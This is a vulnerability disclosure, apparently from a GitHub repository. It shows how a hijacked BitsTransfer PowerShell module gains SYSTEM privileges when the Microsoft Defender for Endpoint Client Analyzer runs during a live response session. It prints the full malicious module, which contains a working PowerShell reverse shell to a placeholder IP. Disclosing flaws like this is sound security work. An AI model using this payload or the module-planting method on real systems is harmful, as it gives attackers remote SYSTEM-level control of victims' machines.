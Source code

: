 # Summary
    
When contacting support, Microsoft may ask for the output package of the "Microsoft Defender for  Endpoint Client Analyzer" tool. This guidance is available in the article "Collect support logs in Microsoft Defender for Endpoint using live response" ( https://docs.microsoft.com/en-us/microsof-365/security/defender-endpoint/troubleshoot-collect-support-log?view=o365-worldwide). I discovered that the "Microsoft Defender for Endpoint Client Analyzer" tool does not check the integrity of PowerShell modules and allows an attacker to gain “nt authority\system” privileges on the victim machine.
    
# Description

## Preconditions for the Attack
    
* The user has permissions to write into one of the following directories on the victim machine:
   * WindowsPowerShell\Modules
   * C:\Program Files\WindowsPowerShell\Modules
   * C:\Windows\system32\WindowsPowerShell\v1.0\Modules   
   * C:\Program Files\Microsoft Monitoring Agent\Agent\PowerShell

* A SOC analyst establishes a Live response session to the victim in MDE and runs the "Microsoft  Defender for Endpoint Client Analyzer" tool
    
## Steps to Reproduce
 
The "Microsoft Defender for Endpoint Client Analyzer" tool is available at the following URL https://aka.ms/MDELiveAnalyzer (a compressed MDELiveAnalyzer.ps1 script). The script when uploaded can be run in the Live response command console as "run MDELiveAnalyzer.ps1". As seen below, the script drops **MDEClientAnalyzer.ps1** with some additional tools. 

![alt text](https://github.com/rashimo/secaware/blob/main/figure1.JPG?raw=true)


The script MDEClientAnalyzer.ps1, dropped by MDELiveAnalyzer.ps1, is carefully designed and checks the integrity of executables via the **Check-Command-verified** function which calls the **CheckAuthenticodeSignature** function to check the signature of executables. Part of the function is visible below. 

![alt text](https://github.com/rashimo/secaware/blob/main/figure2.JPG?raw=true)
   
In the privilege escalation attack we are trying to plant a malicious **BitsTransfer** module in one of the default paths of PowerShell modules. The PSModulePath environment variable stores the paths to the locations of the modules that are installed on disk. PowerShell uses this variable to locate modules when the user does not specify the full path to a module. In the Live response session, the PSModulePath environment variable contains the following paths:

* WindowsPowerShell\Modules
* C:\Program Files\WindowsPowerShell\Modules
* C:\Windows\system32\WindowsPowerShell\v1.0\Modules
* C:\Program Files\Microsoft Monitoring Agent\Agent\PowerShell\

The privilege escalation attack assumes that some of the paths are writable for the current user. The first one (WindowsPowerShell\Modules) is unlikely since the Live response sessions runs in the path "C:\ProgramData\Microsoft\Windows Defender Advanced Threat Protection\" which requires "NT Authority\System" privileges to access or modify the content. The second and third are more likely. In the simulation we are using the second path (C:\Program Files\WindowsPowerShell\Modules). 

We create a new module at:

`C:\Program Files\WindowsPowerShell\Modules\BitsTransfer\BitsTransfer.psm1`

The content of the module is visible below.

```
function Start-BitsTransfer
{
 Param
 (
 [Parameter(Mandatory=$false)]
 [string] $Source,
 [Parameter(Mandatory=$false)]
 [string] $Destination,
[Parameter(Mandatory=$false)]
 [string] $TransferType,
[Parameter(Mandatory=$false)]
[switch] $Asynchronous,
[Parameter(Mandatory=$false)]
 [string] $Description,
[Parameter(Mandatory=$false)]
 [string] $RetryTimeout,
[Parameter(Mandatory=$false)]
 [string] $RetryInterval
 )
Write-Host $env:PSModulePath
$client = New-Object System.Net.Sockets.TCPClient("XXX.XXX.XXX.XXX",443);$stream = 
$client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -
ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = 
(iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = 
([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Fl
ush()};$client.Close()
}
```

The module contains the necessary arguments since from MDEClientAnalyzer.ps1 the **Start-BitsTransfer** function is called twice like:

```
Start-BitsTransfer -source $webfile -Destination "$DlZipFile" -Description "Downloading 
additional files" -RetryTimeout 60 -RetryInterval 60 -ErrorAction SilentlyContinue

Start-BitsTransfer -Source $WPTURL -Destination "$DlZipFile" -TransferType Download -
Asynchronous
```
The other part of the malicious module prints the environment variable PSModulePath and establishes a reverse connection to XXX.XXX.XXX.XXX on port 443. 

The attacker that planted the malicious module in "C:\Program Files\WindowsPowerShell\Modules\BitsTransfer\BitsTransfer.psm1" is now waiting for the live response sessions and the collection of the output package of the "Microsoft Defender for Endpoint Client Analyzer" tool.

Once a SOC analyst establishes a live response session, uploads the MDELiveAnalyzer.ps1 scripts and runs it, the attacker gets a reverse shell to the victim as "NT Authority\System". In the figure **figure3** we can see the SOC analyst running MDELiveAnalyzer.ps1 and the output of the malicious **BitsTransfer** module. In the figure **figure4** we can see an established reverse shell to the attacker machine. It is also visible that the reverse shell runs whit the privileges of "nt authority\system". This concludes our privilege escalation attack.

![alt text](https://github.com/rashimo/secaware/blob/main/figure3.JPG?raw=true)

![alt text](https://github.com/rashimo/secaware/blob/main/figure4.JPG?raw=true)
